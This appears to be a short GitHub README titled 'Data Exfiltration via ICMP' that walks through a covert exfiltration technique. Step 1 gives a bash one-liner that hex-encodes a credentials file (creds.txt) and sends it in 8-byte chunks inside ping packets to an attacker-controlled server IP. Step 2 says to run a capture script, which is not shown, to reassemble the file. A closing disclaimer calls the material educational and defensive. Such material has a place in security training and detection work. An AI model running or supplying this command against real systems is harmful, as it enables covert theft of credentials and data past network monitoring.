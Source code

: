 # Data Exfiltration via ICMP

Step 1 )> Run the following command on the client server from linux command line:
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/fdbe63ae-18b0-450f-8bd2-ee8d4d881f8e" />

  - Here, we are reading the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/43263079-232e-4410-a0ac-a949d2a6b28f" />

Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.
